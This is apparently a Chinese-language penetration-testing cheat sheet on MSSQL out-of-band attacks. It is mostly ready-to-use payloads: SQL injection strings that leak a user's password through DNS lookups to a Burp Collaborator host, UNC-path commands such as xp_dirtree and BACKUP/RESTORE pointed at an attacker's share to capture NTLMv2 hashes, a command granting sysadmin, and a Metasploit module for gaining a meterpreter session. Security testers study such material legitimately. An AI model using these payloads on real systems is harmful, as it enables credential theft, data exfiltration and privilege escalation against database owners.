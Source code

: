 ## MSSQL带外攻击

### MSSQL DNS数据泄露

技术来自 https://twitter.com/ptswarm/status/1313476695295512578/photo/1

```powershell
# 权限：需要在服务器上具有VIEW SERVER STATE权限。
1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

# 权限：需要具有CONTROL SERVER权限。
1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
```

### MSSQL UNC路径

MSSQL支持堆叠查询，因此我们可以创建一个指向我们IP地址的变量，然后使用`xp_dirtree`函数列出我们SMB共享中的文件并获取NTLMv2哈希。

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```

## 将用户设置为DBA（数据库管理员）

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL可信链接

> 数据库之间的链接甚至可以跨森林信任工作。

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #如果希望滥用权限以获得meterpreter会话，请将DEPLOY设置为true
```
